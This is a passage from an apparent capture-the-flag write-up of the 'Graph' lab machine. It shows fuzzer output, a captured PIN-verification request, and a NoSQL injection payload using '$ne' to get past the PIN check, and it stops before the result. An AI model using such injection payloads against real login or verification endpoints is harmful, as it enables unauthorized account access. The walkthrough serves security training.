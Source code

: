    [####################] - 1m     60000/60000   0s      found:5       errors:0
    [####################] - 1m     60000/60000   530/s   http://internal-api.graph.htb/api 



I do make sure to give it `-m GET,POST` to check both since it's an API.
I could also try other methods, but these are a good start. It's worth
noting that the API appears to be case-insensitive.

## Admin Portal Access

### Management Portal

#### Register Account

If I want to register an account, I'll have to bypass the pin which was
"emailed to me". I already found that I can't brute force the pin. I'll
look back at the request where I submit the pin for validation:



    POST /api/verify HTTP/1.1
    Host: internal-api.graph.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
    Accept: application/json, text/plain, */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    Content-Length: 40
    Origin: http://internal.graph.htb
    Connection: close
    Referer: http://internal.graph.htb/

    {"email":"0xdf@graph.htb","code":"1237"}



I still don't know what is running on the server, but it's worth
checking for various kinds of injection. SQL injection doesn't do much,
but given the use of JSON structures, NoSQL might make sense.

To test, I'll request a pin, and then send a random pin with Burp
intercept enabled. I'll modify the request to:



    {"email":"0xdf@graph.htb","code":{"$ne":"00000"}}



This is tricking the system into checking if the code is not "00000",
which is true, so the resulting page is:

